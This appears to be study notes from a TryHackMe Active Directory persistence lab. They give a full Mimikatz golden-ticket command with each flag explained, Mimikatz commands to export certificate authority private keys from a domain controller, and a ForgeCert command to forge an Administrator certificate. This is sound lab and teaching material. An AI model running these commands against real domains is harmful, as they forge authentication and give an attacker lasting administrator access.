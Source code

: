 





golden ticket
kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt

/admin - The username we want to impersonate. This does not have to be a valid user.
/domain - The FQDN of the domain we want to generate the ticket for.
/id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
/sid -The SID of the domain we want to generate the ticket for.
/krbtgt -The NTLM hash of the KRBTGT account.
/endin - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
/renewmax -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
/ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.





# Persistence through Certificates 


Extracting the Private Key

Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI)

Mimikatz and SharpDPAPI 

mimikatz
view the certificates stored on the DC:

crypto::certificates /systemstore:local_machine

export keys

mimikatz
privilege::debug
crypto::capi
crypto::cng
crypto::certificates /systemstore:local_machine /export

note:
. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of mimikatz

Generating our own Certificates

https://github.com/GhostPack/ForgeCert

ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
